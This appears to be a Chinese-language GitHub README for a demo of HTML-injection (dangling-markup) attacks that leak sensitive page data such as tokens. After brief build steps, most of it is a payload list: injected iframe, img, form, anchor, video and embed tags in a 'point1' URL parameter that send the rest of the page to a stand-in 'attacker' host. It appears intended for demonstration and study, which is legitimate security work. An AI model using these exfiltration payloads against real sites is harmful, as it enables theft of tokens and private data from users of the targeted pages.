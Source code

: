 # HTML-based-injection-attack-demo

这是一个模拟**基于 HTML 注入的页面敏感信息传送**场景的 Demo。

# 使用方法
1.修改 `SettingController` 类里的 `EMAIL_ACCOUNT`发件人邮箱 和 `EMAIL_PASS`发件人密码

2.使用 maven+jdk 编译

3.启动项目，访问`http://127.0.0.1:8080`

# payload


- **iframe**

```
http://target/token?point1=<iframe src='http://attacker/?&point2='></iframe>
```

- **img**
```
http://target/token?point1=<img src='http://attacker/?&point2='>
```
```
http://target/token?point1=<image src='http://attacker/?&point2='>aaa</image>
```

- **form**
```
http://target/token?point1=<form action='http://attacker/&point2='><input type="submit"></form>
```
```
http://target/token?point1=<form action="http://attacker" method="post"><textarea name="x">&point2=</textarea><input type="submit"></form>
```
```
http://target/token?point1=<form><input type="submit" formaction='http://attacker/&point2='></form>
```

- **a**
```
http://target/token?point1=<a href='http://attacker/?&point2='>click me</a>
```
```
http://target/token?point1=<math href='http://attacker/?&point2='>aaa</math>
```

- **video**
```
http://target/token?point1=<video src='http://attacker/?&point2='>aaa</video>
```
```
http://target/token?point1=<video><source src='http://attacker/?&point2='>aaa</source></video>
```

- **embed**

```
http://target/token?point1=<embed src='http://attacker/?&point2='>aaa</embed>
```

# 参考文章

https://b1ue.cn/archives/247.html
https://mp.weixin.qq.com/s/TIp0kwDtKHcT5BnTY1HLWg
